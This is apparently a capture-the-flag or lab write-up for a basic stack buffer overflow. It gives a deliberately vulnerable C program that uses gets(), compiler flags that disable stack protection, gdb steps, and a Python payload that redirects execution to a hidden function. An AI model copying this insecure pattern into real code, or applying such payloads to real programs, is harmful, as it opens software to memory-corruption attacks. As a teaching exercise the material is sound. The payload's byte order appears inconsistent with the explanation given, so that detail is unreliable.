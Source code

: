 ## Bof 1

Source Code:
```
#include<stdio.h>

void secretFunc()
{
    printf("Congratulation!\n:");
}
int vuln(){
    char array[200];
    printf("Enter text:");
    gets(array);
    return 0;
}
int main(int argc, char*argv[]){
    if (argv[1]==0){
        printf("Missing arguments\n");
    }
    vuln();
    return 0;
}
```
Complie by gcc: <br>
`gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2 `

 <br>

![complie bof1](./imgs/bof1_1.png)
<br>

Use gdb-peda to find `secretFunct` address: <br>
`gdb bof1.out -q` <br>
`disas secretFunc` <br>
![disas secretFunct](./imgs/bof1_2.png) <br>
then quit gdb-peda by `q` <br>

Run the program: get `200 bytes + 4 bytes + 'reverse of secretFunc address'` to character array `buffer` <br>
`echo $(python -c "print('a'*204 + '\x08\x04\x84\x6b')"
) | ./bof1.out` <br>
![run program](./imgs/bof1_3.png) 